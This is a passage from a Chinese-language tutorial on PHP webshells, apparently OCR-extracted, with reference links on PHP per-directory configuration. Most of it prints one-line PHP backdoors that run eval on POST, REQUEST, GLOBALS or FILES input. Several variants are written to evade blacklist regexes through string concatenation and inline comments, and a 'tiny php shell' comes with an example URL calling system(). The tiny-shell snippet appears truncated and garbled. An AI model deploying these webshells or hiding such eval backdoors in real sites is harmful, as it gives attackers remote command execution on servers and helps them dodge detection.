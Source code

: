 1. webshell后门部署
2. 服务器配置相关漏洞修复

因为这种分布式配置文件允许安全研究员对子应用而不是整个web server进行小范围的配置修改，从而可以进行配置加固，并且可以获得即时生效的效果

**Relevant Link:**

> [http://php.net/manual/zh/configuration.file.per-user.php](http://php.net/manual/zh/configuration.file.per-user.php) \
> ****[http://php.net/manual/zh/ini.list.php](http://php.net/manual/zh/ini.list.php) \
> [http://drops.wooyun.org/tips/3424](http://drops.wooyun.org/tips/3424)

### 0x4:  利用PHP动态变量特性 _****_

```php
<?php
    //@eval($_POST['op']);
    @eval(${"_P"."OST"}['op']);
?>

//使用注释符来规避基于黑名单的正则
<?php
    //@eval($_POST['op']);
    @eval($/*aaa*/{"_P"."OST"}['op']);
?>

// 使用其他数据获取方式来获取数据，譬如$_REQUEST、$GLOBALS["_POST"]、$_FILES等。
<?php
    @eval($_REQUEST['op']);
?>
// $_REQUEST 中的变量通过 GET，POST 和 COOKIE 输入机制传递给脚本文件。这个数组的项目及其顺序依赖于 PHP 的variables_order 指令的配置。

<?php
    @eval($GLOBALS['_POST']['op']);
?>

<?php
    @eval($_FILES['name']);
?>
// (然后把payload写在文件名中)
```

### **0x5: tiny php shell**

前提是对方的服务器的php.ini开启了

```
short_open_tag = On
```

```php
2]).@$_($_GET[1])?>

#   http://localhost/shell/choop.php?2=system&1=dir 
```
